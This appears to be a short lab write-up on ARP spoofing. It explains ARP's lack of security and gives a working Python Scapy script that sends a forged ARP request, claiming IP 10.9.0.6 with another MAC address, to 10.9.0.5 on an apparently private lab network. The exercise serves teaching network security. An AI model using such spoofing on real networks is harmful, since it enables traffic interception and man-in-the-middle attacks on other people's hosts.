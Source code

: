# ARP Spoofing Attack
The Address Resolution Protocol (ARP) is a communication protocol used for discovering the link layer address, such as the MAC address, given an IP address. The ARP protocol is a very simple protocol, and it does not implement any security measure.

## ARP Request
```
#!/usr/bin/env python3
from scapy.all import *

# Create Ethernet and ARP objects
ethernet = Ether(dst='02:42:0a:09:00:05', src='02:42:0a:09:00:69')
arp = ARP(op=1, pdst='10.9.0.5', hwsrc='02:42:0a:09:00:69', hwdst='02:42:0a:09:00:05', psrc='10.9.0.6')

# Echo message before sending packet
print("Nigel is sending an ARP request")

# Send the packet
sendp(ethernet/arp) 
```

This script uses the Scapy library to construct and send an ARP request packet. <br/>
It first creates Ethernet and ARP objects to define the packet's source and destination addresses, as well as the IP addresses involved. <br/>
It then prints the message ```"Nigel is sending an ARP request"``` before sending the packet using the ```sendp``` function.
